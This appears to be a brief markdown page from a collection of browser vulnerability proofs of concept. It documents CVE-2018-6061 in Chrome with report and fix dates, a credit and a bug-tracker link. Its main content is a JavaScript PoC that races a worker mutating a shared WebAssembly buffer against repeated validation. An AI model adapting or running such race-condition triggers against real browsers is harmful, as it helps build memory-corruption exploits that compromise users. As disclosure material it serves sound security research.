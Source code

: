 # CVE-2018-6061

- Report: Dec 2017
- Fix: Jan 2018
- Credit: Guang Gong of Alpha Team, Qihoo 360

## PoC

```javascript
var workerScript =
  `onmessage = function(sab) {
    var ta = new Uint8Array(sab);
    var tmp;
    while(1){
        var index = (Math.random() * ta.length | 0) + 1;
        var value = (Math.random() * 256 | 0) + 1;
        //print(index + " " +value);
        tmp=ta[index];
        ta[index]=value;
        for(var i=0;i<value;i++);
        ta[index]=tmp;
    }
  };`;
/* 000054: 41 ff 0f                   | i32.const 2047
 000057: 6a */
var w = new Worker(workerScript);
var b = readbuffer("./stack.wasm");
var ta = new Uint8Array(b);
var sb = new SharedArrayBuffer(b.byteLength);
var sta = new Uint8Array(sb);
for(var i=0;i<ta.length;i++)
    sta[i]=ta[i];

// Transfer SharedArrayBuffer
w.postMessage(sb);
while(1){
try{
    var result= WebAssembly.validate(sta);
 }catch(e){print(e)}
}
```

## Reference

- [Issue](https://crbug.com/794091)
